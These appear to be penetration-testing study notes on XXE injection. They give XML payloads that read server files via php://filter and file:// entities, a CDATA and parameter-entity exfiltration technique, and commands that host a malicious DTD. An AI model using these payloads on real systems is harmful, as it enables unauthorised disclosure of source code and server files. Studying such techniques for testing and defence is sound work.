 If a file contains some of XML's special characters (e.g. `<`/`>`/`&`), it would break the external entity reference and not be used for the reference. Furthermore, we cannot read any binary data, as it would also not conform to the XML format.
##### example for a php backend:
1. `php://filter/` wrapper. 
    With this filter, we can specify the `convert.base64-encode` encoder as our filter, and then add an input resource (e.g. `resource=index.php`), as follows:

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

---
## 3. SSRF VIA XXE
which is used to enumerate locally open ports and access their pages among other restricted web pages

---
### 4. DDOS old web servers
---
## Restricted Scenarios/ dealing with other web frameworks
Some file formats may not be readable through basic XXE, while in other cases, the web application may not output any input values in some instances, so we may try to force it through errors.
#### 1. Exfiltration with CDATA
To output data that does not conform to the XML format, we can wrap the content of the external file reference with a `CDATA` tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`). This way, the XML parser would consider this part raw data, which may contain any type of data, including any special characters. 
1. define a `begin` internal entity with `<![CDATA[`, an `end` internal entity with `]]>`, and then place our external entity file in between, and it should be considered as a `CDATA` element, as follows:
```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```
After that, if we reference the `&joined;` entity via  a parameter entity, it should contain our escaped data.
To bypass a limitation which denies the joining of external and internal entities, we can utilize `XML Parameter Entities`, a special type of entity that starts with a `%` character and can only be used within the DTD. What's unique about parameter entities is that if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined, as follows:
so lets try hosting the parameter entity
```shell-session
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
